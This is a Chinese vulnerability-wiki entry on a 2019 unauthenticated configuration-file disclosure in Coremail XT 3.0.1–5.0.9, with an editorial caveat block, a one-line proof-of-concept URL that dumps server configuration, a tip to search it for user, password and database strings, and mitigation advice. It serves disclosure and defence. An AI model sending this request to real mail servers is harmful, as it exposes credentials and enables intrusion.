

# Coremail配置文件信息泄漏

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：XT3.0.1-XT5.0.9 claimed, fixed5.0.9a; no auth required per article
- 证据范围：Single request plus image-dependent result; source advisory and repair version present

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Vendor advisory URL contains escaped underscore; normalize URL
- Source/date/version/auth metadata absent from frontmatter
- The historical demonstration hostname does not establish current authorization
- Results are screenshot-only and images were not reviewed

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news\_x/article\_id/32641.htm

二、漏洞影响
------------

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

三、复现过程
------------

### POC

    http://mail.0-sec.org/mailsms/s?func=ADMIN:appState&dumpConfig=/

输入Poc访问漏洞页面发现信息泄露页面内搜索user，password，database等关键字如下图

### 四、修复建议

1、在不影响使用的情况下，仅允许VPN连接后才可访问；

2、在Web服务器（nginx/apache）上限制外网对 /mailsms
路径的访问。建议使用Coremail构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。
